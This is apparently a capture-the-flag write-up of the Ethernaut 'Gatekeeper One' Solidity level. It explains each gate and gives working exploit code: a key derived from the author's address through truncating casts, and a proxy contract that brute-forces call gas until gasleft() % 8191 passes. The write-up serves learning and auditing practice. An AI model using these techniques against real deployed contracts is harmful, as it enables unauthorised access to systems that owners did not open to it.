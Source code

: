 ***Gatekeeper One***

Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
Remember what you've learned from the Telephone and Token levels.
You can learn more about the special function gasleft()

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

*Let's summarize the requirements laid out before us:*

`require(msg.sender != tx.origin);`
msg.sender must not be the same as the tx.origin, so we'll need to build and deploy a smart contract to act as a proxy.

`require(gasleft() % 8191 == 0);`
the gasleft divided by 8191 must not have a remainder

`require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");`
whatever argument we pass must result in the same value when converting from either `bytes8->uint64->uint32` and from `bytes8->uint64->uint16`

`require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");`
whatever argument we pass must result in a different value when converting from `bytes8->uint64->uint32` and from `bytes8->uint64`

`require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");`
The result of casting `tx.origin->uint160->uint16` must result in the same value as the argument's casting from `bytes8->uint64->uint32`


That last one's pretty weird. Let's start with our dev account and see what that looks like:
`0x789bC753b5405463194Ef1FE607Fbf15328A58bd` is our address, and the 0x indicates this is represented in hexadecimal. The 160 in `uint160` means the data type can store 160 bits of information. 160 bits = 20 bytes. The `uint160` holds 20 bytes of information - The address `0x789...`, as well as all Ethereum addresses, are 20 bytes stored as 40 characters in hexadecimal format, so you can convert an Ethereum address directly into `uint160` and back.

I'm not sure what the easiest way to do all this casting is, but we'll just use ethers.js and write some JS to do the job.

```
import { BigNumber } from "ethers";

var result = BigNumber.from("0x789bC753b5405463194Ef1FE607Fbf15328A58bd").toBigInt().toString(10);

console.log(result);
```

The console spit out `688552871833894150031733809142624065887358572733` as the uint160 decimal representation of my dev address. We'll now need to convert that to the type `uint16`, which is just 2 bytes of data.

In hexadecimal, every two characters is one byte of data. Additionally, we need to know that a conversion to a smaller type strips the higher-order bits, as in the example below:

```
uint32 a = 0x12345678;
uint16 b = uint16(a); // b will be 0x5678 now
```

Let's strip the last four characters (4 bytes, 16 bits) from our address and convert that to decimal: `0x58BD` -> `22717`. These two expressions are equal, but different. I wrote a bit of code to compare the two and deployed it:

```
if(0x58BD == 22717){
    return true;
}
```

That works, so let's build a couple functions to test the other gates as well:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Hack {

function testGates(bytes8 _key) public pure returns (uint16){
  uint16 gatesPassed=0;
  uint64 key = uint64(_key);
  if(passedGateOne(key)){
    gatesPassed++;
  }
  if(passedGateTwo(key)){
    gatesPassed++;
  }
  if(passedGateThree(key)){
    gatesPassed++;
  }
  return gatesPassed;
}

function passedGateOne(uint64 _key) public pure returns(bool){
  if(uint32(_key) == uint16(_key)){
    return true;
  }
  else{
    return false;
  }
}

function passedGateTwo(uint64 _key) public pure returns(bool){
  if(uint32(_key) == _key){
    return false;
  }
  else{
    return true;
  }
}

function passedGateThree(uint64 _key) public pure returns(bool){
  if(uint32(_key) == 22717){
    return true;
  }
  else{
    return false;
  }
}

}
```

This allows us to call `testGates` with an argument and see how many we've cracked.
Knowing we'll need to pass in `22717` or `0x58BD`, we can simply expand the hex version and play around with the larger values that would be truncated with the casting to a smaller data type. `0x58BD` is 2 bytes, and we can increase this to 8 bytes by padding the front with 0: `0x00000000000058BD`. Because the front doesn't matter, let's add something there to pass the gates: `0x80085000000058BD`

![Alt text](3gates.jpg)

Wonderful! That's all 3 of the normal gates; we know this key will work.

Now we just need to deploy a contract to act as a proxy to fulfill the requirement `(msg.sender != tx.origin);`, and make sure that the `gasleft()` is perfectly divisible by 8191.

This was pretty tough. Basically, there are two ways to approach this; the first is to run a test transaction, debug the execution, then inspect the remaining gas when the `gasleft()` command is executed...

I failed to do this successfully, as the remix vm seems to modify the gas cost in a way that greatly differs from the actual implementation:
![Alt text](gasCostExact.jpg)

The alternative method, the lazy way, is to say 'okay, let's just keep spamming the function until it works'.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface target {
function enter(bytes8 _key) external returns (bool);
}

contract Hack {
function tryKey(bytes8 _key, address _addr)public returns(bool){

for (uint256 i = 0; i < 300; i++) {
            (bool success, ) = address(_addr).call{gas: i + (8191 * 3)}(abi.encodeWithSignature("enter(bytes8)", _key));
            if (success) {
                break;
            }
        }
}
}
```

This approach continues to call the `enter()` function, incrementing the gas value each time. Luckily for me, this worked on the first try, but I had anticipated a need to fiddle with the paramaters here. Also, when testing this, it actually crashed remix in my browser session because the vm ran out of memory.

Anyway...

After deploying the contract, calculating a valid key, and spamming guesses for the gas, we're in, baby! Look at this, I guess this is the challenge OZ thought would make a good benchmark for aspiring contract auditors. I might just apply, but I feel a bit guilty for not guessing the gas cost with surgical precision, ha!

![Alt text](complete.jpg)